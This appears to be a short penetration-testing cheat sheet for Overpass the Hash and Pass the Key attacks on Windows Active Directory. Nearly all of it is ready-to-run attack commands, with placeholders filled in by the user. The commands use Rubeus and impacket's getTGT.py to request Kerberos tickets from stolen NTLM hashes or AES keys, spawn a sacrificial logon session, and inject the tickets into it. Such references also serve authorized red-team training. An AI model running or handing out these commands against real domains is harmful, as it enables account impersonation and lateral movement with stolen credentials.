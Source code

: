 # Overpass the Hash / Pass the Key (PtK)

## Tools: Rubeus , getTGT.py

#### 1) getTGT.py

 - getTGT.py DOMAIN/USER -hashes:HASHES (Overpass the Hash. Pass the ticket with NTLM hash)

 - getTGT.py -aesKey 'KEY' DOMAIN/USER@IP (Pass the Key. Pass the ticket with AES Key)

#### 2) Rubeus

 - Rubeus asktgt /user:VICTIM /rc4:RC4_VALUE

 - Rubeus ptt /ticket:TICKET (Successful PtT attack)

### Alternate usage:

 - Rubeus asktgt /user:VICTIM /rc4:RC4_VALUE

 - Rubeus createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]

 - Rubeus ptt /luid:0xdeadbeef /ticket:TICKET (Pass the ticket)
